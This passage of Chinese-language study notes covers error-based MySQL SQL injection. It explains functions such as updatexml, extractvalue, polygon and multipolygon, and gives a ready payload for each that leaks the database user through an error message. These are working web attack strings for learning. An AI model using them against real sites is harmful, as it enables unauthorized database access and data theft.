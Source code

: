 2. **extractvalue() & updatexml()**

   updatexml()函数与extractvalue()类似，是更新xml文档的函数

   **语法：**updatexml(目标xml文档，xml路径，更新的内容)

   ​			extractvalue(目标xml文档，xml路径)

   **能查询字符串的最大长度都只为32位**，如果我们想要的结果超过32，就需要用substring()函数截取，一次查看32位

   ```
   ?id=0' and updatexml(1, concat('~',user(),'~'), 3) --+
   
   ?id=0' and (extractvalue(1,concat('~',user(),'~'))) --+
   ```

3. **geometrycollection()**

   GeometryCollection()是由1个或多个任意类几何对象构成的几何对象，所有元素必须具有相同的空间参考系（即相同的坐标系）

   但是还是没怎么看懂怎么报的错

   ```
   id=1 and geometrycollection((select * from(select * from(select user())a)b))
   ```

4. **multipoint()**

   MultiPoint是一种由Point元素构成的几何对象集合。这些点未以任何方式连接或排序

   这个我也是看的云里雾里，感觉和geometrycollection()是同一种套路

   ```
   id=1 and multipoint((select * from(select * from(select user())a)b))
   ```

5. **polygon()**

   Polygon() 这也是和空间几何有关的，这三兄弟是一个套路，都是需要数字就大概会报错

   ```
   id=1 and polygon((select * from(select * from(select user())a)b))
   ```

6. **multipolygon()**

   不说了，一个套路，multipolygon()是一种由Polygon元素构成的几何对象集合，为了显错传入字符串,所以报错

   ```
   id=1 and multipolygon((select * from(select * from(select user())a)b))
   ```

7. **linestring()**

   LineString()是具有点之间线性内插特性的Curve，为了显错传入了,字符串....

   ```
   id=1 and linestring((select * from(select * from(select user())a)b))
   ```

8. **multilinestring()**

   multilinestring()是一种由LineStirng元素构成的MultiCurve几何对象集合，为了显错又把字符串传进去了

   ```
   id=1 and multilinestring((select * from(select * from(select user())a)b))
   ```
